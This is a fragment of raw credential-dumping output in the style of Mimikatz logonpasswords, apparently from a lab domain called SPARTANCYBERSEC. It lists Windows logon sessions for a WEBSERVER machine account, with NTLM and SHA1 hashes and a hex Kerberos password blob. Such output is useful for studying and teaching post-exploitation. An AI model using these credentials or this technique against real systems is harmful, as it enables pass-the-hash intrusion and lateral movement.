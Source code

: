             kerberos :
             * Username : (null)
             * Domain   : (null)
             * Password : (null)
            ssp :
            credman :
            cloudap :

    Authentication Id : 0 ; 45216 (00000000:0000b0a0)
    Session           : Interactive from 1
    User Name         : DWM-1
    Domain            : Window Manager
    Logon Server      : (null)
    Logon Time        : 11/6/2023 12:16:14 AM
    SID               : S-1-5-90-0-1
            msv :
             [00000003] Primary
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * NTLM     : 7d0c4cdc32724b99ef4459147401471a
             * SHA1     : cd54e4ac32cca2e2ad07df657a832d9ee1cabe04
            tspkg :
            wdigest :
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * Password : (null)
            kerberos :
             * Username : WEBSERVER$
             * Domain   : spartancybersec.corp
             * Password : de ce 87 d1 ac 7b 8a ff c5 3b db 11 1d bd 9f 81 ca 32 f1 c5 cc 3f 89 cc 95 80 7a 97 1c 5d 2d 8b 28 af 7d 25 1a 53 7e b9 5c b9 2a 23 6a fb ca bb 9e 20 16 d4 3c f6 7e b4 b4 76 48 c6 b7 10 25 9a 07 b5 07 b2 7f d2 b1 b0 a1 b0 f9 ce a1 92 a7 26 3d 0d ff ca d8 16 5b 60 9d 20 64 ea d9 0b f5 5a c0 0f 79 1f a0 b4 e3 43 cd 63 d1 ec 14 f8 5d bb 4c e0 22 da 1e 83 6f 1a eb 39 82 cd 45 97 23 ea a4 ef d0 52 72 96 cb a1 f5 1c 07 ea ef cb 45 17 7b 5a f0 0b 8b 57 bb 8f 1e 35 2f f3 55 57 61 5b 4f 12 2f 51 11 c2 1b 60 59 39 c6 df 0c 06 9b 11 db 70 92 9e 90 6b 6c 49 f8 f7 d4 af 4c 86 21 87 e4 ea 57 50 a6 b7 87 ad 4d 61 c5 b0 35 84 79 c6 9d 26 8f a7 0f e7 3a e3 fb 34 24 88 27 fd c5 ae d5 61 67 1e eb 78 a7 05 dc 38 9a 9c 72 0a 44 cc
            ssp :
            credman :
            cloudap :

    Authentication Id : 0 ; 24887 (00000000:00006137)
    Session           : UndefinedLogonType from 0
    User Name         : (null)
    Domain            : (null)
    Logon Server      : (null)
    Logon Time        : 11/6/2023 12:16:13 AM
    SID               :
            msv :
             [00000003] Primary
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * NTLM     : 449c5f226aff8a2af42ac07ebaf901cb
             * SHA1     : 8af38efaf6e0c5c701c5d793438fbcdf4815777a
            tspkg :
            wdigest :
            kerberos :
            ssp :
            credman :
            cloudap :
